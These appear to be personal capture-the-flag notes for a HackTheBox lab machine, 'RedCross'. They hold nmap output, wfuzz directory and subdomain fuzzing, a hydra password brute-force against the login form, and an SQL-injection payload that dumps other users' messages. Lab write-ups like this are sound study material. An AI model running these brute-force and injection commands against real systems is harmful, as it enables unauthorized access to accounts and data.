

# Nmap
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
|   256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
|_  256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
80/tcp  open  http     Apache httpd 2.4.25
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
443/tcp open  ssl/http Apache httpd 2.4.25
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| ssl-cert: Subject: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:46:58
| Not valid after:  2021-02-27T19:46:58
| MD5:   f95b 6897 247d ca2f 3da7 6756 1046 16f1
|_SHA-1: e86e e827 6ddd b483 7f86 c59b 2995 002c 77cc fcea
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

## HTTP 80
-> redirect to https https://intra.redcross.htb/

## HTTPS 443

sudo bash -c 'echo "10.10.10.113 redcross.htb intra.redcross.htb" >> /etc/hosts'

https://intra.redcross.htb/?page=login
https://intra.redcross.htb/?page=contact

LFI test on ?page negative

404 page has 520 bytes, so hide it
    wfuzz -c -f fuzz.log -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'https://intra.redcross.htb/?page=FUZZ' --hh 520

hydra intra.redcross.htb  -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Pa
sswords/xato-net-10-million-passwords-100.txt https-post-form "/pages/actions.php:user=^USER^&pass=^PASS^&action=login:Wrong data" -I

https://intra.redcross.htb/init.php

penelope@redcross.htb

#### guest:guest login
Guest Account Info [1]
From: admin (uid 1)	To: guest (uid 5)

You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.

trying `5'`

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '5' or dest like '1'') LIMIT 10' at line 1

1' OR '1'='1

dest = %

Guest Account Info [1]
From: admin (uid 1)	To: guest (uid 5)

You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.
Problems with order 02122128 [2]
From: tricia (uid 4)	To: penelope (uid 2)

Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.
Strange behavior [3]
From: admin (uid 1)	To: charles (uid 3)

Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?
Problems with order 02122128 [4]
From: penelope (uid 2)	To: tricia (uid 4)

Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.
admin subd webapp problems [5]
From: charles (uid 3)	To: penelope (uid 2)

Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!
admin subd webapp problems (priority) [6]
From: penelope (uid 2)	To: charles (uid 3)

Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR
STOP checking messages from intra (priority) [7]
From: penelope (uid 2)	To: admin (uid 1)

Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...
STOP checking messages from intra (priority) [8]
From: admin (uid 1)	To: penelope (uid 2)

Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP.

### DNS enum

wfuzz -c -f dns-enum.log -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "https://intra.redcross.htb" -H "Host: FUZZ.redcross.htb" --hc 301

000000024:   421        12 L     49 W       407 Ch      "admin"

### Admin subdomain

https://admin.redcross.htb/?page=login

https://admin.redcross.htb/pages/firewall.php

https://admin.redcross.htb/phpmyadmin/

guest:guest -> not enough privileges

